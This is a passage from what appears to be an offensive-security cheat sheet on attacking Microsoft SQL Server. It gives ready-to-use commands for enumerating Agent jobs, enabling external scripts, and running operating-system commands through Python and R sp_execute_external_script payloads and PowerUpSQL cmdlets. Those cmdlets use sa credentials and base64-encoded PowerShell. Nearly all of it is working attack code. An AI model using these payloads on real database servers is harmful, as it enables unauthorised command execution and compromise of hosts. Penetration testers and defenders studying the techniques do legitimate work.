 ### List All Jobs

```ps1
SELECT job_id, [name] FROM msdb.dbo.sysjobs;
SELECT job.job_id, notify_level_email, name, enabled, description, step_name, command, server, database_name FROM msdb.dbo.sysjobs job INNER JOIN msdb.dbo.sysjobsteps steps ON job.job_id = steps.job_id
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## External Scripts

Requirements:

- Feature 'Advanced Analytics Extensions' must be installed
- Enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

### Python

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language =N'Python',@script=N'import subprocess p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE) OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

### R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language=N'R',@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

@script=N'OutputDataSet <-data.frame(shell("dir",intern=T))'
```

## References

- [Attacking SQL Server CLR Assemblies - Scott Sutherland - July 13th, 2017](https://blog.netspi.com/attacking-sql-server-clr-assemblies/)
- [MSSQL Agent Jobs for Command Execution - Nicholas Popovich - September 21, 2016](https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution)
